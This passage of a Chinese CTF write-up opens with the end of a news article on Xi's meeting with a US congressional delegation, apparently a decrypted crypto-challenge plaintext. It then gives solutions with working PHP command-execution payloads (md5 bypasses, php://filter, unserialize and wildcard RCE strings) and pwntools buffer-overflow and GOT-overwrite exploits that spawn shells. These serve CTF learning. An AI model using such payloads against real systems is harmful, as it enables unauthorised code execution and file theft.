    Xi also underlined the significance of China-US ties in the global context, calling it "the most important bilateral relationship in the world".
    
    He said that China and the US, as two major countries, should "demonstrate the broad-mindedness, vision and responsibility of major countries".
    
    In addition, the two countries should manage their relationship well and "act with a sense of responsibility to history, to the people and to the world".
    
    Speaking on divergences between the two nations, he said that competition and confrontation are not in line with the trend of the times and cannot solve the two countries' own problems or the challenges facing the world.
    
    He pointed out that the common interests of China and the US far outweigh their differences, and "the respective success of China and the US is an opportunity for, rather than a challenge to, each other".
    
    Citing the political science terminology "the Thucydides Trap" — used to explain when a rising power may cause fear and insecurity in an established power, leading to confrontation and even war — Xi said the trap "is not inevitable".
    
    "Planet Earth is vast enough to accommodate the respective development and common prosperity of China and the US," he added.
    
    As for bilateral cooperation, Xi said China and the US have seen deep economic integration and can benefit from each other's growth.
    
    Recovery from the COVID-19 pandemic, the response to climate change, and settlement of international and regional hot spot issues require coordination and cooperation between the two sides, he added.
    
    The US delegation led by Schumer introduced views and opinions on issues related to bilateral ties.
    
    Members of the delegation said that the stable development of US-China relations is not only vital to the two countries, but also has a bearing on world peace and development.
    
    They said China's development and prosperity benefit the US people, and the US does not seek conflict with China.
    
    The US also does not seek to decouple, they added.
    
    The US looks forward to strengthening bilateral trade and investment cooperation, as well as enhancing communication and cooperation on issues such as addressing climate change, combating drug trafficking and resolving regional conflicts, the delegation members said.
    
    Observers said the meeting illustrated China's broad mind and constructive approach to minimizing miscalculation and bringing the relations out of a low point.
    
    Wang Dong, a professor and executive director of the Institute for Global Cooperation and Understanding at Peking University, said that the meeting was "an impressive, amiable personal effort made by the Chinese head of state to appeal to and help US lawmakers to perceive China properly with a cool head, giving a boost to improving the ties".
    
    "Xi's call for the broad-mindedness of a major country sent the message that Washington should not be obsessed with securing its hegemony and selfish interests," he said.
    
    Su Xiaohui, deputy director of the China Institute of International Studies' Department of American Studies, said both sides reaffirmed the importance of their ties at the meeting, and Beijing made it clear that repairing the damage to the relations caused by the US side requires breaking away from a Cold War mentality and a zero-sum game approach.
    
    "The remarks made by the US side at the meeting show that the US, at federal, congressional and state levels, has also realized that it is impossible for the US to totally break away from China, and they are also not willing to do so," Su said.
    
    "The key for getting the ties back on track lies in pragmatic cooperation, and both sides should work to make sure the established cooperative mechanisms function properly and evenly. This will be conducive to both sides managing and controlling their divergences and stabilizing relations," she said.
    
    The US delegation, which arrived in Shanghai on Saturday, will also travel to Xi'an, Shaanxi province.
    
    Xi told the US lawmakers that more members of Congress are welcome to visit China "to gain a better understanding of China's past, present and future".
    
    He also voiced hope that the legislative bodies of the two countries will have more visits, dialogues and exchanges to enhance mutual understanding and make contributions to stabilizing and improving China-US relations.
    
    The US lawmakers told Xi that they are very pleased to visit China, and they appreciated the Chinese side's great hospitality, which enabled them to feel the vigor and potential of the country's development.
    
    The US is willing to strengthen dialogue and communication with China in the spirit of openness, frankness and mutual respect, manage the two countries' ties in a responsible way, and advance the stable development of US-China relations, they said.
    
    The US delegation also met with Zhao Leji, chairman of the National People's Congress Standing Committee, and Foreign Minister Wang Yi in Beijing on Monday.
    ```

    得到`flag{here_Is_th3_f1ag_of_RC4Question}`

## Web

### checkin

> 什么是一个 「 web 」 手的核心要义！

分析：

网页禁用了部分按键，不能打开开发者工具，flag藏在页面源代码中。

+ "GUI"，yyds!:

    通过浏览器，手动打开开发者工具，找到flag。

    

+ 查看源代码的小方法:

    虽然禁用了右键但是，在URL前添加`view-source`便可以查看了:
    

+ 不就是个源代码，看我保存大法：

    因为没用禁用，直接++ctrl+S++,保存网页，打开网页，查看源代码。
    
    

+ 试试`curl`：

    终端输入`curl http://ctf.v50to.cc:12293/`:

    

+ 不就是小小的Javascript

    发现F12等被禁用，可以猜测是通过js禁用的。

    

    所以在浏览器中添加该网站禁用Javascript。

    

    刷想一下就可以随便开F12了。

    

+ 还有很多方法，大概会的就这几招。

### ez_php

> flag在 /flag

主要是各种绕过，通过构造读取到flag。



1. `md5`绕过

    PHP中==是判断值是否相等，若两个变量的类型不相等，则会转化为相同类型后再进行比较。PHP在处理哈希字符串的时候，它把每一个以0e开头并且后面字符均为纯数字的哈希值都解析为0。常见的如下：

    在md5加密后以0E开头:

    QNKCDZO

    240610708

    s878926199a

    s155964671a

    随便挑两个传给`username`和`password`，通过第一层。

2. `res`构造避开`strstr`检查

    res的结果不可以包含flag字符串，可以通过php伪协议将它进行base64加密绕过即可。

3. `php://filter`协议

    注意到request_url中间是拼接了一个url地址的可以将php伪协议拆分成两段。

    `http://ctf.v50to.cc:12306/?url=php://filter/read=convert.base64-encode|&target=/resource=/flag&username=s155964671a&password=s878926199a`

4. 获得`flag`

    

    base64解密：

    

### normal-unserialize

> 反序列化漏洞，网上找教程：

1. `__wakeup()`绕过：修改反序列后的变量数量，但是这个会有问题，但是不修改，他也不会`die()`

2. `__destruct()`中的两个正则：
   1. 其中`flag`和`php`可以通过`?`绕过；`system`可以利用反引号；`cat`可以通过`tac`。
   2. 第二个正则中，需要包含`=`，同时要构造php标签，可以用`<?`。

3. 编写PHP：

    ```php
    class hack {
        public $key;
        public function __wakeup(){
        }
        public function __destruct(){
        }
    }
    $a = new hack();
    $a -> key = '<?=`tac /fla??p?p`;';
    echo(serialize($a));
    ```

    通过`_GET`方法传递参数，得到flag。

    

### NormalShell

> flag在 /flag

访问网站得到页面代码：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if ((string)$_GET['username'] !== (string)$_GET['password'] && md5($_GET['username']) === md5($_GET['password'])) {
    if(!isset($_GET['target'])){
        echo "Getting over it!";  }
    else {
        $res = $_GET['target'];
        if(!preg_match("/[a-zA-Z0-9_$@]+/",$res))
        {
            eval($res);    }
        else {
            die('Soon');
        }  }}
else {  die("NOT NOT YET!");}
?>
```

1. `md5`绕过

    因为有牵制类型转换为了`string`所以只能利用md5强碰撞。

2. 构造字母数字`rce`

    利用`?`来绕过正则，构造`rce`。

3. 进行`GET`传参

    通过`_GET`传参，得到flag。

    ```text
    ?password=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2%20
    &username=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2%20
    &target=?><?=`/???/??? /????`;?>
    ```

    

### NormalPreg

> flag在 /flag

打开网页，看到一行提示：`tip: backup file there`

经过尝试，发现备份文件`index.php.bak`:

```php
<?php
error_reporting(0);
$target=@$_POST['target'];
$code = @$_POST['code'];

function process($code){
    return preg_replace("/php|cat|tac|assert|pcntl_exec|fwrite|curl|sleep|eval|system|assert|flag|shell_exec|passthru|exec|F10g|fl0g|fl1g|phar/i",'',$code);
}

if(!is_array($target)){

    if(!preg_match_all('/but.*how/is',$target)){

        if(strpos($target,'but how')!==false){

            system(process($code));

        }else{
            die('tip: backup file there');
        }

    }else{
        die('NO there');
    }
}
?>
```

1. 构造`target`

    因为对`target`进行了正则匹配需要不包含`but`和`how`中间任意长度字符串，但是下一行检测到`but how`就会die掉而且是强匹配，无法通过绕过。

    所以尝试绕过`preg_match_all`，经过尝试只有回溯法可以绕过，编写脚本进行构造。

2. 构造`code`

    因为对`code`进行了`preg_replace`，所以需要构造`code`，但是`preg_replace`只能替换一次，所以通过重复写就好。

3. 编写脚本：

    ```php
    import requests
    from io import BytesIO
    
    url = "http://ctf.qwq.cc:14124/"
    
    datas = {
        "target": "but how" + 'a'* 1000000,
        "code": "ccatat /flflagag"
    }
    
    res = requests.post(url=url, data=datas, allow_redirects=False)
    
    print(res.text)
    ```

### Noramal_Bypass

> flag在 /flag

```php
<?php
show_source(__FILE__);
@session_start();
@error_reporting(0);
$list = @$_GET['identity'];
if (!@isset($list['target'])) {
    die('Stop!');
} else if ($list['target'] != @md5($_SESSION['username'])) {
    die('Stop right there!');
} else {
    if (isset($_GET['target'])) {
        $target = $_GET['target'];
        $target = addslashes($target);
        if( strlen($target)>32 ){
            die("Too long");
        }
        if (preg_match('/\{tac|pcntl_exec|fwrite|curl|system|eval|assert|flag|passthru|exec|system|popen|cat|ini_alter|ini_restore|openlog|syslog|readlink|symlink|popepassthru|chroot|chgrp|chown|shell_exec|proc_open|proc_get_status|stream_socket_server|scandir|assert([^}]+)\}/i', $target)) {
            die('No way!');
        }
        if (intval($target)) {
            eval('"' . $target . ('"./ecu.jpg"') . ')}}";');
        }
    } else {
        eval('$flag="' . $target . '";');
    }
}
```

参考网上文章进行分析：

> 这里 `$_SESSION [username]` 是 `null`，所以我们只要使用一个空的 `md5`串就行：`whoami [admin]> =d41d8cd98f00b204e9800998ecf8427e`
>
> 下面 `$_GET [code]` 经过了 `addslashes` 函数，无法闭合下面 `eval ('"' .$admin .('"./hh.> php"') .')}}";');` 的双引号，我们打印一下如图：
>
> 
>
> 这里肯定回抛出一个语法错误的，因为语法格式是错误的。
>
> 但是在双引号包裹 `${}` 进行执行还有一个姿势，如图：
>
> 
>
> 这种写法就允许了两对双引号在未经反斜杠转义下的解析。
>
> 那么构造 Payload：
>
> `?whoami[admin]=d41d8cd98f00b204e9800998ecf8427e&code=1${${print(`
>
> 
>
> 这样成功输出了`./hh.php`，在 `preg_match` 中并没有过滤反引号，我们可以通过反引号来执行命令，如图：
>
> 
>
> 放在题目中查看 `flag` 位置，如图：
>
> 
>
> 但是在 `preg_match` 中过滤了 `“flag”` 字符，这里可以使用 `Linux` 的通配符来匹配，如图：
>
> 
>

## PWN

### 签到

签个到先，无附件

`nc ip port`

`nc`一下，`cat flag`：



### EzGame

> 实践赛原题人生重开模拟器，当时零解，现在添加提示：
>
> 不需要写脚本就能解，也不需要会pwn的各种攻击方法，想办法打通游戏即可获胜
>
> 多注意下和读取文件相关的过程，“漏洞”可能就在其中
>
> 没有人规定过一个pwn实例一次只能起一个进程来连~

解法：

不知道什么原理，多开几个终端。然后最后每个终端都打工到死，凑够200w，创业就可以了。

### EzLogin

> 学习盗取cc的ssh账号密码

> HINT1: 什么是strcmp判定字符串相等的机制
>
> HINT2: 有些人写程序时经常数不清自己的for循环会运行几次

将文件放入IDA进行分析发现存在`systerm`函数，但是需要输入与随即自串匹配：

```c
int ssh()
{
    char s1[16]; // [rsp+0h] [rbp-40h] BYREF
    char ptr[31]; // [rsp+10h] [rbp-30h] BYREF
    char v3; // [rsp+2Fh] [rbp-11h]
    FILE *stream; // [rsp+30h] [rbp-10h]
    int i; // [rsp+3Ch] [rbp-4h]

    stream = fopen("/dev/urandom", "r");
    fread(ptr, 0x10uLL, 1uLL, stream);
    fclose(stream);
    printf("Please input your password:");
    for ( i = 0; i <= 16; ++i )
    {
        v3 = getchar();
        if ( v3 == 10 )
        {
            s1[i] = 0;
            break;
        }
        s1[i] = v3;
    }
    if ( strcmp(s1, ptr) )
      return puts("Username or Password Error!");
    puts("Welcome admin!");
    return system("/bin/sh");
}
```

观察发现函数体多循环了一次，比申请栈空间多了一个，且字串`ptr`在`s1`下方，所以可以通过溢出覆盖`s1`，使得`s1`与`ptr`通过`strcmp`判定，从而获得`shell`。

`strcmp`匹配过程：两个字符串自左向右逐个字符相比（按ASCII值大小相比较），直到出现不同的字符或遇`'\0'`为止。

所以令`s1`和`prt`第一个字符为`\0`，让函数认为两个字符串完全相等，从而获得`shell`。

```python
from pwn import *

# context(endian="little", os="linux", arch="i386", log_level="debug")

p = process("./ezlogin")
# p = remote('ctf.qwq.cc', 14566)
payload = b"ssh cc@v50to.cc"
p.sendlineafter("$", payload)

payload = b"\0" + b"a" * 15 + b"\0"
p.sendafter("Please input your password:", payload)

p.interactive()
```

### EzCheckin

> 后门都给你了，
>
> 就是比较多
>
> HINT: 两个linux命令用分号链接，前者运行出错了，后者还会运行吗

```c
int vul()
{
    char buf[16]; // [rsp+0h] [rbp-10h] BYREF

    puts("You know what you should to do");
    read(0, buf, 0x1AuLL);
    return puts("bye~");
}
```

读取字符多于栈深度，存在溢出攻击，寻找正确后门函数。

```c
int back10()
{
    return system("/bin;sh");
}
```

用后门地址覆盖返回地址，获得`shell`。

```python
from pwn import *
p = process('./checkin')
# p = remote("ctf.qwq.cc", 12675)
payload = b'a' * (0x10+8) + p64(0x004011F3)
p.sendafter("You know what you should to do",payload)
p.interactive()
```

### maybeHeap

> maybe this is a heap question, I think

> 什么是程序的got表
> 让我输0-9我就输0-9？主打就一个叛逆
> 如果我能任意写，我一定要把got表改成后门函数地址

```c
int add()
{
    int v0; // ebx
    int v2[3]; // [rsp+Ch] [rbp-14h] BYREF

    printf("Enter index (0-9) to add a new Chunk: ");
    __isoc99_scanf("%d", v2);
    printf("Enter name for the new Chunk (up to 16 characters): ");
    __isoc99_scanf("%15s", 24LL * v2[0] + 4210880);
    v0 = v2[0];
    qword_4040D0[3 * v0] = malloc(0x80uLL);
    printf("Enter content for the new Chunk (up to 127 characters): ");
    __isoc99_scanf("%127s", qword_4040D0[3 * v2[0]]);
    return puts("Chunk added!");
}
```

函数对输入没有进行检查，存在溢出攻击，可以覆盖`got`表。

```text
.got.plt:0000000000404018 B8 41 40 00 00 00 00 00       off_404018 dq offset puts               ; DATA XREF: _puts↑r
.got.plt:0000000000404020 C0 41 40 00 00 00 00 00       off_404020 dq offset system             ; DATA XREF: _system↑r
.got.plt:0000000000404028 C8 41 40 00 00 00 00 00       off_404028 dq offset printf             ; DATA XREF: _printf↑r
.got.plt:0000000000404030 D8 41 40 00 00 00 00 00       off_404030 dq offset malloc             ; DATA XREF: _malloc↑r
.got.plt:0000000000404038 E0 41 40 00 00 00 00 00       off_404038 dq offset fflush             ; DATA XREF: _fflush↑r
.got.plt:0000000000404040 E8 41 40 00 00 00 00 00       off_404040 dq offset setvbuf            ; DATA XREF: _setvbuf↑r
.got.plt:0000000000404048 F0 41 40 00 00 00 00 00       off_404048 dq offset __isoc99_scanf     ; DATA XREF: ___isoc99_scanf↑r
.got.plt:0000000000404050 F8 41 40 00 00 00 00 00       off_404050 dq offset exit               ; DATA XREF: _exit↑r
```

`got`表中存在`system`函数，可以通过覆盖`got`表，将`malloc`函数地址改为`backdoor`函数地址，从而获得`shell`。

```c
int backdoor()
{
    return system("/bin/sh");
}
```

```python
from pwn import *

context(endian='little',os='linux',arch='i386',log_level='debug')

p = process('./maybeheap')
# p = remote('ctf.qwq.cc',13898)

p.sendlineafter('Choice: ',b'1')
p.sendlineafter('Enter index (0-9) to add a new Chunk: ',b'-6')
attach(p)
p.sendafter('Enter name for the new Chunk (up to 16 characters): ',p64(0x401228))
p.interactive()
```

### 红包题！1024！

> 前5名拿到flag的选手能获得支付宝口令红包哦！

> 即使你不会逆向，拼手速完成1024也能领取红包哦！

玩！

## Re

### crackme

请寻找当username为NWPU时的serial，flag为flag{serial的32位md5值}

1. 查看附件，看图标应该是Python打包的exe。

    

2. 经过搜索得知是[pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)打包程序，下载后尝试解包：
   1. 安装依赖：

        `pip install -r requirements.txt`

   2. 运行指令: `python .\pyinstxtractor.py .\crackme.exe`进行解包。

   3. 发现有报错：

        `Error : Unsupported pyinstaller version or not a pyinstaller archive`

        

   4. 修改文件：

        根据[网上教程](https://www.cnblogs.com/czlnb/p/15118864.html)，查看`pyinstxtractor.py`得知，会在文件末尾检测有没有MAGIC字段，没有找到就会报错。

        

        可以发现在88字节后加入了其他东西，利用脚本删除，再次解包：

        

3. 恢复`pyc`文件：

   1. 根据搜索得知：

        pyinstxtractor.py工具在2.0以前的版本，会生成两个不带后缀的文件，我们仍然是要找到那个与自己的.exe文件同名的文件，手动为它添加.pyc后缀。

        文件是没有Magic Number的，我们需要根据Python版本自行补全。

   2. 附件改过名字，找到`CM`和`struct`，将后者Magic Number加入到前面文件的头部，得到pyc：

        

   3. 利用u`ncompyle6`反编译：

      1. 由于对Python版本有要求，需要将系统PATH修改为3.9及以下版本。
      2. 运行`puncompyle6 CM.pyc`得到反汇编文件：

            ```python
            # Visit https://www.lddgo.net/string/pyc-compile-decompile for more information
            # Version : Python 3.7
            
            from CMpub import pub_n_list, pub_e_list
            from general import valid_serial, valid_username, get_enc_seq, enc0
            from Crypto.Util.number import bytes_to_long
            from os import system
            
            def check(serial, seq):
                now = serial
                for j in range(len(seq)):
                    i = seq[j]
                    n = pub_n_list[i]
                    e = pub_e_list[i]
                    if now > pub_n_list[i]:
                        return False
                    if None > 0:
                        now = pow(now, e, n)
                        continue
                    now = enc0(now, e, n)
                    if 0 == now:
                        return False
             
                return now
            
            def main():
                username0 = input("Please input Username:\t")
                serial0 = input("Please input Serial:\t")
             
                try:
                    valid_serial(serial0)
                    valid_username(username0)
                except:
                    print("\nInvalid Input\n")
                    return None
                serial = int(serial0, 16)
                username = username0.encode("utf-8")
                seq = get_enc_seq(username)
                username = bytes_to_long(username)
                check_value = check(serial, seq)
                if check_value == username:
                    print("\nCorrect!\n")
                else:
                    print('\nOops! The encrypted Serial is not "' + username0 + '".\n')
             
                system("pause")
            
            if __name__ == "__main__":
                main()
             
            ```

4. 还需要反编译`crackme.exe_extracted\PYZ-00.pyz_extracted\general.pyc`和`crackme.exe_extracted\PYZ-00.pyz_extracted\CMpub.pyc`两个外部库，但是未知原因失败。
5. 分析`crackme.py`，首先是验证输入信息，check函数为关键函数，里面有个循环结构，其中i的值的取值范围是：0-9，等价于进行了十次RSA加密。
6. 上网搜索有关脚本，输入`NWPU`,进行32位`md5`加密得到flag：

    ```python
    from Crypto.Util.number import bytes_to_long
    from hashlib import sha256
    
    d_list = [
        0,
        1229061379053482744823152709690434888605435342198642793057361495153090878523561729157374272032362247153476832905266577597936263875922635915871109425948662301015976854125739243408750974498511602088546684816889116185016023460221241669,
        777757116197429014363243483536399809327489478672765799132008796613164652485176625704586327714092043960999487185568710834915265226900792279774759093092549483626423808502139519027474793822444064402879491357824424416255246538629615833,
        823517544270505260875748293850542665969704501523967290816451493771583601768953397655610971102989198539746963950912153425409736040224095605717482218948794082459357645210952999432155985335398508720958815348576453854403675948095665769,
        201419093613711761798540120588879041236840801068737686325195769604622639638393093247553615834885873886104026065263583851481439063609372020322699902282368593094548575688163522138303256348801329176798576662806247524508598547117027909,
        0,
        922636550562204599680939922372659456090989853033213781402035071733018496656291847983487357218691366381484789513851952285401356211108779700672241308549478980097499945532484886375918716118514969665502334756552044884230174523807259329,
        627567627354326605515830278366021138159090868181225778581524414114680017539982571880336309158282300554534438008003322761037932916796881232969829716072515736525821134512405811777096389132413642826921797756179543381108933388795804769,
        87763698610259057934268676955169084425464093902524300758830437447338976666426976224860384022223934601405128988601223084334832120115000652985202766336425151725676233383146800117094745887838499800523801384784235875984207816521259103,
        476133969086427941368462698171675198835788633664060460402567958612344234273279077792246479357026462298849835811290909092037603283477920353500979549470973082158764663458247740861805650589884280458476962517272738918503674157481390819,
    ]
    
    now0_d = [
        3278088227273880484685188900446423165326324359156241482897,
        5595268830569065289149075246423557309146176813871482913465,
        5168422726700129702446055556002687483861807983023239862033,
        935387432279493795970516178982877288303534264234974679937,
    ]
    now0_n = [
        6277052177355867862708971469565390229110991711310599757597,
        6277031389885428580574088212602983156224270664268963309877,
        6277087998938792861042405062580257456598525084583043892593,
        4973828634074084070222279013150769733596223651485114564273,
    ]
    
    pub_n_list = [
        1230179032923966355216193664456989083993912178939747632284136330115404600706909248395341278324517175820853286404743710145952644302282044037365125019184623573863075946389644423629304167773956447181872440665027369039751736977631813405,
        1230197346433601576871359147146318345794660644587556813317361121112259736906064757424819981626600536503633922734399282271582600808051530362336101942259823441839299355603967188517947938968081105138847731565260537550727639211683197879,
        1230175103148238074642625667635930176506433011031372989302833308622794392947506662903737049730958209740476679577696669046125817578949235076594181707520951908118478466754559490593457625240572006099913042624607335165510041897534435209,
        1230195419889872144876656964938566328205499234259210834822623032535100815525647028091967713768075507813160118981470260555950945392043292242406398016007295386079663975352275199434079009613722639414793342879897781273997830701207001839,
        1230174827420484335136670743465041112031290639257519417607166302989196920558878232997045073571925815302061150702941267642751824310540753494973942944709182841639107639574372312103384805313053886702823094137071927771880443876497834223,
        1230185988420782350445684618408731075592594374149632568516959143947765502111474165779039038375448460747737995123102271976521803891348006321134167925739699715318653372703575221067707929872597815216923462345784043188962130180912008349,
        1230182067416272799574586563163545941454653137377618375202713428977357995541722463977983142958255155175313052685136009571171283284447072364958073918526788611457558644331357136872625495927467161960356807765452292242153097362794537297,
        1230175667673121302771605367336364266247327534138626737357715728447532125946735363769285915448580252805827932111511713836998047583507066247536863749820566853793525683889378074234787827092004094825431802398656705570322640700888234457,
        1230196215847264556140155304337951587143228841840811940425256504477922246092127337047231112435502675187836322205816125340569108923142351137471846665258392302281836567949024626839375922984390501852966755563575130612920367863203222919,
        1230186684530117755130494958384962720772853569595334792197322452151726400507263657518745202199786469389956474942774063845925192557326303453731548268507917026122142913461670429214311602221240479274737794080665351419597459856902143413,
    ]
    pub_e_list = [
        516522834974778788822737622050071002228140433403308439492366176194856535110473049678585760137133115927927751389873437178270126066640141239601219481836725664034890696476089482771855782560150644578106217444113872365843767702019835165,
        763019398230639020385095590111745749325105506404934257293148841704076883985487416392986296273940405033341623636375465706381388882972769884442281412068657916633528090146878551371406807944205178239005601520958614234641039656871416589,
        758988267473789691400810521950661631157749425185051374867090671651749645717430551141709267885532654476900928589359256799354189000242807872593092025777838259738748452497031844208902096380110211365512236965688511597330444132995706089,
        1160624249765899561934599801255171381291816170997589163041066264243942985094428544791715385847964978883555709070528078257993944356365754193784103706700609561770247555832359683008614876192584738534198649251915489100192910235497240729,
        969584864618350548573879514405798110739020997255786147754353418263140741786718203172013471748696400657712445258494301947449205093259143099235572291402265831321039275001497928579686310419303799571460516007736804962510266314260484877,
        977635869919691501956476862485989771461480520535754082824505449124021204549179419508424215127475063873127952064971338143136691515421466871627243381628988777601672460858098249144471775030169367579800220246847826510445608881346258241,
        78547544255936347746865903259860321812178052069796003154571672431430356709336862994676369608681727972743046653319757142976388460246409300441314120923213061705641045744824531268088986356203751782848608006264879618324460588039470689,
        917852167599983949701460374746950168138446186550074700858636881546192542929330983597633909534315139846805451671216776221152853388795036676315895948093016056124384137235869660229554239964598066970045657946753074761366723500887474273,
        512767915836808239407587704603826045022417741229198687031456060058182528147222248648359114235863620155721720617193551963387219761946115199232261616095015003006138489919312964841684835736418589367746436759162173805823822810793395319,
        1528664914065178933673821962753205462549978186396819666317790993639228285768444490202530533489915241541000489357324333513953018274712260336841857865516134868397620862505815431605074038377372062941322744934135683316080403207986149067,
    ]
    
    def gen_code(name, seq):
        now = name
        for j in range(len(seq) - 1, -1, -1):
            i = seq[j]
            n = pub_n_list[i]
            d = d_list[i]
            e = pub_e_list[i]
            if now > pub_n_list[i]:
                return False
            if i == 5:
                for _ in range(972):
                    now = pow(now, e, n)
            elif i > 0:
                now = pow(now, d, n)
            else:
                now = dec0(now, e, n)
        return now
    
    def dec0(m, e, n):
        nbit = 192
        T = (n.bit_length() - 1) // nbit + 1
        ans = 0
        for i in range(T - 1, -1, -1):
    
            def xxx(x, t):
                return x >> t * nbit & (1 << nbit) - 1
    
            now_m = xxx(m, i)
            ans = (ans << nbit) + pow(now_m, now0_d[i], now0_n[i])
        return ans
    
    def get_enc_seq(username):
        h = sha256()
        h.update(username)
        hash_value = int(h.hexdigest(), 16)
        T = 9
        S = 10
        stat = [0] * (T + 1)
        seq = [0]
        n = hash_value
        while n > 0:
            if S * T > len(seq):
                now = n % T + 1
                if stat[now] < S:
                    seq.append(now)
                    stat[now] += 1
                n //= T
    
        return seq
    
    def enc0(m, e, n):
        nbit = 192
        T = (n.bit_length() - 1) // nbit + 1
        ans = 0
        for i in range(T - 1, -1, -1):
    
            def xxx(x, t):
                return x >> t * nbit & (1 << nbit) - 1
    
            now_n = xxx(n, i)
            now_e = xxx(e, i)
            now_m = xxx(m, i)
            if now_m >= now_n:
                return 0
            ans = (ans << nbit) + pow(now_m, now_e, now_n)
    
        return ans
    
    def check(serial, seq):
        now = serial
        for j in range(len(seq)):
            i = seq[j]
            n = pub_n_list[i]
            e = pub_e_list[i]
            if now > pub_n_list[i]:
                return False
            if i > 0:
                now = pow(now, e, n)
            else:
                now = enc0(now, e, n)
                print("now,", now)
                if 0 == now:
                    return False
    
        return now
    
    def main():
        username0 = "NWPU"
        username = username0.encode("utf-8")
        seq = get_enc_seq(username)
        username = bytes_to_long(username)
    
        serial = gen_code(username, seq)
    
        check_value = check(serial, seq)
        if check_value == username:
            print("serial :", hex(serial)[2:].upper())
    
    if __name__ == "__main__":
        main()
    
    ```

### ez_z3

flag形式是flag{}

通过工具查看，发现可能有UPX，尝试upx -d发现提示文件被修改，检测UPX标志位，发现被改为`XYU`，修改后脱壳：

[网上题解](https://blog.csdn.net/weixin_61154173/article/details/130255371)

### 321check_in

1. 通过IDA反编译，发现为exe4j生成的exe。
2. 下载`jre`，运行文件
3. 访问`C:\Users\[username]\AppData\Local\Temp`，搜索`e4j`

    

4. 得到`jar`文件，使用[JD-GUI](https://java-decompiler.github.io/)反编译

    

TODO 复现写WP

### 这又是什么加密！？

貌似有非预期解法，是什么呢 flag形式是flag{}

改过附件，原附件搜索出原题。

### odscript

[odscript](https://www.jianshu.com/p/74c980efcde6)

### base64

[wp](https://www.52pojie.cn/thread-893929-1-1.html)

### babyida

ida使用方法——字符串搜索！

HINT1 别硬看了，学下动调直接秒了

1. 根据题干查看字符串，发现第一个flag：

    

2. 明显是一个假的，查看伪代码，发现存在无法反编译的地方，方向第二个flag：

    

    经过检验还是假的。

3. 根据后面的提示，说需要动态调试：

    > 这里卡了很久，先分析整个程序过程：
    >
    >   1. 输出`Please input the final flag:`
    >   2. 接收输入字符串存入`v4`。
    >   3. 调用`sub_D31150`函数
    >
    > 所以在动态调试的时候，先在`sub_D31150`函数设了个断点，但是整个函数过程就是在不停的复制第二个假flag和输入进去的flag，看了很久也没有突破。

    在`sub_D31150`函数入口设置断点，查看ESP寄存器地址处内容（EBP中是输入进去的flag）：

    

    发现是之前的假flag，直接运行到最后，可以发现整个过程对假flag部分位置进行了更改，最后得到最终的flag：

    

### magicpyc

> 奇怪，这个pyc文件为什么损坏了呢？（本题python版本在python3.7~python3.11之间）
>
> PYC文件运行后输出：
>
> key2= OQTMHDHRNBNYUKUKYDNVZVZV
>
> cipher= 4n30nac1L1luRjsLn8_B!!oSc3_hXhiTu0}zsr{n_f34GsgHm

打开发现缺少MagicNumber，根据题干范围尝试，为Python3.8版本。



使用在线反编译，得到源码：

```python
# uncompyle6 version 3.8.0
# Python bytecode 3.8.0 (3413)
# Decompiled from: Python 3.7.0 (default, Nov 25 2022, 11:07:23) 
# [GCC 4.8.5 20150623 (Red Hat 4.8.5-44)]
# Embedded file name: q.py
import random

def create_playfair_matrix(key):
    key = key.replace(' ', '').upper()
    alphabet = 'ABCDEFGHIKLMNOPQRSTUVWXYZ'
    matrix = []
    for char in key + alphabet:
        if char not in matrix:
            matrix.append(char)
        return matrix

def prepare_message(message):
    message = message.replace(' ', '').upper()
    message = message.replace('J', 'I')
    prepared_message = message[0]
    for i in range(1, len(message)):
        if message[i] == message[(i - 1)]:
            prepared_message += 'X'
        prepared_message += message[i]
    else:
        if len(prepared_message) % 2 != 0:
            prepared_message += 'X'
        return prepared_message

def playfair_encrypt(message, key):
    matrix = create_playfair_matrix(key)
    prepared_message = prepare_message(message)
    encrypted_message = ''
    for i in range(0, len(prepared_message), 2):
        char1, char2 = prepared_message[i], prepared_message[(i + 1)]
        row1, col1 = divmod(matrix.index(char1), 5)
        row2, col2 = divmod(matrix.index(char2), 5)
        if row1 == row2:
            encrypted_message += matrix[(row1 * 5 + (col1 + 1) % 5)]
            encrypted_message += matrix[(row2 * 5 + (col2 + 1) % 5)]
        elif col1 == col2:
            encrypted_message += matrix[((row1 + 1) % 5 * 5 + col1)]
            encrypted_message += matrix[((row2 + 1) % 5 * 5 + col2)]
        else:
            encrypted_message += matrix[(row1 * 5 + col2)]
            encrypted_message += matrix[(row2 * 5 + col1)]
    else:
        return encrypted_message

def rot13(text):
    encrypted_text = ''
    for char in text:
        if 'a' <= char <= 'z':
            encrypted_char = chr((ord(char) - ord('a') + 13) % 26 + ord('a'))
        else:
            if 'A' <= char <= 'Z':
                encrypted_char = chr((ord(char) - ord('A') + 13) % 26 + ord('A'))
            else:
                encrypted_char = char
        encrypted_text += encrypted_char
    else:
        return encrypted_text

def vigenere_encrypt(plain_text, key):
    key = rot13(key)
    encrypted_text = ''
    key_length = len(key)
    for i in range(len(plain_text)):
        char = plain_text[i]
        if char.isalpha():
            key_char = key[(i % key_length)]
            shift = ord(key_char.lower()) - ord('a')
            if char.isupper():
                encrypted_char = chr((ord(char) - ord('A') + shift) % 26 + ord('A'))
            else:
                encrypted_char = chr((ord(char) - ord('a') + shift) % 26 + ord('a'))
        else:
            encrypted_char = char
        encrypted_text += encrypted_char
    else:
        return encrypted_text

def grid_encrypto(plain_message):
    encrypt_message = ''
    mid = len(plain_message) // 2
    for i in range(mid):
        encrypt_message += plain_message[i]
        encrypt_message += plain_message[(i + mid)]
    else:
        if len(plain_message) % 2:
            encrypt_message += plain_message[(-1)]
        return encrypt_message

def encrypt(plain_message, key):
    encrypted_message = vigenere_encrypt(plain_message, key)
    r = random.randint(10, 20)
    for _ in range(r):
        encrypted_message = grid_encrypto(encrypted_message)
        encrypted_message = encrypted_message[1:] + encrypted_message[0]
    else:
        return encrypted_message

key = open('key.txt').readline()
flag = open('flag.txt').readline()
key1 = 'WHEREISMYKEY'
key2 = playfair_encrypt(key, key1)
print('key2=', key2)
